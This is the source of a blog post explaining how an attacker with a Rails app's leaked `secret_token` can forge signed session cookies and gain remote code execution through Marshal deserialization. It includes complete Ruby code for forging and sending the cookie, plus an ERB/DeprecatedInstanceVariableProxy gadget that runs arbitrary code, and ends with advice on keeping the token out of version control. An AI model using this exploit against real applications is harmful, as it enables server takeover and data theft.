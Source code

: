 ```yaml
---
layout: post
title: How to hack a Rails app using its secret_token
hn: 6110386
bestof: true
---
```


Create a new Rails app, open `/config/initializers/secret_token.rb` and you'll see your app's `secret_token`. As I will show you, if anyone who wishes you harm gets hold of this string then they can execute arbitrary code on your server. Troublingly, the Rails default includes it in your version control, and if you don't remove it then anyone who gets or is given access to your codebase has complete, complete control over your server. Maybe you added them to your private repo for a code review, or unthinkingly put a side-project production app into a public repo, or someone sneaked a look at your Sublime while you were out. It doesn't matter - if they have this key then they own you.

### Why your `secret_token` is important - session cookies

Your `secret_token` is used for verifying the integrity of your app's session cookies. A session cookie will look something like:

{% highlight ruby %}
_MyApp_session=BAh7B0kiD3Nlc3Npb25faWQGOgZFRkkiJTcyZTAwMmRjZTg2NTBiZmI0M2UwZmY0MjEyNGJjODBhBjsAVEkiEF9jc3JmX3Rva2VuBjsARkkiMWhmYTBKSGQwYVQxRlhnTFZWK2FEZEVhbEtLbDBMSitoVEo5YU4zR2dxM3M9BjsARg%3D%3D--dc40a55cd52fe32bb3b84ae0608956dfb5824689
{% endhighlight %}

The cookie value (the part after the `=`) is split into 2 parts, separated by `--`. The first part is a Base64 encoded serialization of the hash that Rails will use as the `session` variable in controllers. The second part is a signature created using `secret_token`, that Rails uses to check that the cookie it has been passed is legit. This prevents users from forging nefarious cookies and from tricking Rails into loading data it doesn't want to load. Unless of course they have your `secret_token` and can also forge the signature...

### The serialized session hash

The first part of the cookie is a Marshal dump of the session hash, encoded in Base64. Marshal is a Ruby object serialization format that is used here to allow Rails to persist objects between requests made in the same session. In many cases it will only store the `session_id`, `_csrf_token` and Warden authentication data, but calling `session["foo"] = "bar"` in your controllers allows you to store pretty much anything you want. For my cookie above, unescaping the URL encoding and then Base64 decoding gives:

{% highlight ruby %}
"\x04\b{\aI\"\x0Fsession_id\x06:\x06EFI\"%72e002dce8650bfb43e0ff42124bc80a\x06;\x00TI\"\x10_csrf_token\x06;\x00FI\"1hfa0JHd0aT1FXgLVV+aDdEalKKl0LJ+hTJ9aN3Ggq3s=\x06;\x00F"
{% endhighlight %}

which if you squint hard enough is indeed starting to look kind of like a hash. This cookie is passed up to the server with each request, Rails calls `Marshal.load` on it, and merrily populates `session` with whatever serialized objects it is passed. Object persistance between requests. Brilliant.

### The signature

But wait, the cookie obviously lives on the client side, which means that a user can set it to be anything they want. Which means that the user can pass in whatever serialized object they want to our app. And by the time we reinflate it and realise that they have passed us a small thermonuclear device, it will be too late and the attacker will be able to execute arbitrary code on our server.

That's where our `secret_token` and the second part of the cookie value (the part after the `--`) come in. Whenever Rails gets a session cookie, it checks that it hasn't been tampered with by verifying that the HMAC digest of the first part of the cookie with its `secret_token` matches the second, signature part. This means in order to craft a nefarious cookie an attacker would need to know the app's `secret_token`. Unfortunately, just being called `secret_token` doesn't make it secret, and, as already discussed, if you aren't careful then it can easily end up somewhere you don't want it to.

### The attack - how to bake a poisonous cookie

If you know an app's `secret_token` and want to forge a valid cookie, you simply need to reverse the above process:

{% highlight ruby %}
require "net/http"
require "uri"

secret_token = "stolen-from-github-or-somewhere"

# Construct your evil hash
my_evil_session_hash = {
    "ive_made_a_huge_mistake" => true
}

# Serialize your hash
marshal_dump = Marshal.dump(my_evil_session_hash)

# Base64 encode this dump
unescaped_cookie_value = Base64.encode64(marshal_dump)

# Escape any troublesome characters and remove line breaks altogether
escaped_cookie_value = CGI.escape(unescaped_cookie_value).gsub("%0A", "")

# Calculate the signature using the HMAC digest of the secret_token and the escaped cookie value. Replace %3D with equals signs.
cookie_signature = OpenSSL::HMAC.hexdigest(OpenSSL::Digest::SHA1.new, secret_token, escaped_cookie_value.gsub("%3D", "="))

# Construct your evil cookie by concatenating the value with the signature
my_evil_cookie = "_MyApp_session=#{unescaped_cookie_value}--#{cookie_signature}"

# BOMBS AWAY
url = URI.parse("http://myapp.com/") # Make sure you have a trailing / if you are sending to the root path

req = Net::HTTP::Get.new(url.path)
req.add_field("Cookie", my_evil_cookie)

res = Net::HTTP.new(url.host, url.port).start do |http|
    http.request(req)
end
{% endhighlight %}

This request will load `my_evil_session_hash` into `session`, which is purely on principal not good. But loading arbitrary strings and integers is not about to melt any servers. How can you choose the contents of your hash so as to actually do some damage? Some obscure objects buried deep inside Rails are happy to oblige:

{% highlight ruby %}   
# Thanks to the folks at CodeClimate for pointing this out

# The code in the ERB will run when Rails unserializes it
erb = ERB.allocate
erb.instance_variable_set :@src, "User.steal_all_passwords; User.email_spam_to_all_users;"

proxy = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new(erb, :result)
my_evil_session_hash = {
    "proxy_of_death" => Marshal.dump(proxy)
}
# ... continue as above
{% endhighlight %}

And presto.

### Knowing is half the battle

ALL of this trouble can be trivially avoided by taking `secret_token` out of your version control. Put it into an environment variable (<a href="https://github.com/bkeepers/dotenv">dotenv</a> is handy for local, it's easy on <a href="https://devcenter.heroku.com/articles/config-vars">Heroku</a> too) and you can sleep (a bit more) soundly at night. If you suspect that someone you wouldn't want to meet on a dark night knows your `secret_token` then you can simply change it. All your existing cookies will be invalidated, but nothing else bad will happen. Of course, you still don't want anyone you don't trust to get any kind of access to your codebase at all. But you can at least make life difficult for them even if they do.

### Thanks to

<a href="http://railssecurity.com" target="_blank">Rails Security by Code Climate</a>
and
<a href="http://techbrahmana.blogspot.co.uk/2012/03/rails-cookie-handling-serialization-and.html" target="_blank">TechBrahmana</a>


